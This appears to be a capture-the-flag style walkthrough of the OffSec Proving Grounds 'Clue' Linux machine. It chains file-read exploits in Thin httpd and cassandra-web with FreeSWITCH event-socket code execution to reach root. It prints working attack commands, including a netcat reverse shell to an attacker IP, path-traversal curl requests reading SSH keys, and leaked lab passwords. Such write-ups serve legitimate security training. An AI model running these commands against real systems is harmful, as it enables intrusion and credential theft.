

# Clue — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Hard
**OS:** Linux

---

## TL;DR

Thin httpd file read vulnerability → extract FreeSWITCH event socket password → FreeSWITCH RCE → shell as freeswitch → switch to user cassie → sudo cassandra-web (another file read vuln) → extract anthony's SSH key → SSH as root.

---

## Enumeration

Full port scan first:

```bash
nmap -sV -p- 192.168.187.240
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 7.9p1 Debian |
| 80 | HTTP | Apache httpd 2.4.38 |
| 139/445 | SMB | Samba |
| 3000 | HTTP | Thin httpd |
| 8021 | FreeSWITCH | mod_event_socket |

Lots of services to poke at here. The Thin HTTP server on port 3000 and FreeSWITCH on 8021 are particularly interesting.

---

## Step 1 — File Read via Thin httpd (Port 3000)

Searching Exploit-DB for Thin httpd vulnerabilities, we find an **arbitrary file read** exploit (EDB-49362):


Let's use it to read `/proc/self/cmdline` — this shows us the command-line arguments of the running process:

```bash
python3 49362.py 192.168.187.240 -p 3000 /proc/self/cmdline
```

```
/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330
```

We just got **cassie's credentials**: `cassie:SecondBiteTheApple330`

We can also read `/etc/passwd` to discover users `anthony` and `cassie`.

---

## Step 2 — FreeSWITCH Event Socket Password

We can also access SMB shares and mount the backup:

```bash
sudo mount -t cifs //192.168.120.155/backup backup/ -o guest
```

Searching for passwords in XML configs:

```bash
find . -type f -name "*.xml" -exec grep -nH password {} + | grep socket
```

This reveals the default FreeSWITCH password `ClueCon`, but it doesn't work on the actual service. Let's use our file read exploit to grab the real config:

```bash
python3 49362.py 192.168.187.240 -p 3000 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```

```xml
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="listen-ip" value="0.0.0.0"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="StrongClueConEight021"/>
  </settings>
</configuration>
```

The real password is `StrongClueConEight021`. Let's verify:

```bash
nc 192.168.120.155 8021
# Content-Type: auth/request
auth StrongClueConEight021
# Content-Type: command/reply
# Reply-Text: +OK accepted
```

We're in.

---

## Step 3 — FreeSWITCH RCE

With authenticated access to the FreeSWITCH event socket, we can get code execution:



```bash
python3 exp.py 192.168.187.240 whoami
# freeswitch
```

The firewall blocks most ports, so we use port 80 for the reverse shell:

```bash
python3 exp.py 192.168.170.240 'nc 192.168.45.197 80 -e /bin/sh'
```

We've got a shell as `freeswitch`.

---

## Step 4 — Lateral Movement to Cassie

We already know cassie's password from earlier:

```bash
su cassie
# Password: SecondBiteTheApple330
```

Checking sudo permissions:

```bash
sudo -l
```

```
User cassie may run the following commands on clue:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web
```

---

## Step 5 — Privilege Escalation via Cassandra-Web File Read

We can start cassandra-web with sudo on a custom port:

```bash
sudo /usr/local/bin/cassandra-web --bind 0.0.0.0:1234 -u cassie -p SecondBiteTheApple330
```

The SSH config shows only `root` and `anthony` are allowed to SSH. Checking the file read vulnerability in cassandra-web, we read anthony's bash history:

```bash
curl --path-as-is http://192.168.170.240:1234/../../../../../../../../.././../home/anthony/.bash_history
```

```
ssh-keygen
cp .ssh/id_rsa.pub .ssh/authorized_keys
```

Anthony generated SSH keys and authorized himself — and since he can SSH as root, his private key is our golden ticket:

```bash
curl --path-as-is http://192.168.170.240:1234/../../../../../../../../.././../home/anthony/.ssh/id_rsa
```

We get the full SSH private key.

---

## Step 6 — Root

Save the key and SSH in as root:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@<IP>
```

**Root.** 🎉

---

## Key Takeaways

- **`/proc/self/cmdline`** is an incredibly useful file to read during exploitation — it reveals running processes, usernames, passwords passed as CLI arguments
- **FreeSWITCH event socket** with known credentials = RCE. Always check the actual config, not just defaults
- **Cassandra-web** has a path traversal vulnerability — useful for reading arbitrary files when running with sudo
- This box is a masterclass in chaining multiple file read vulnerabilities to work your way to root
- **Firewall restrictions** are common — always try common ports (80, 443) for reverse shells if other ports are blocked

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
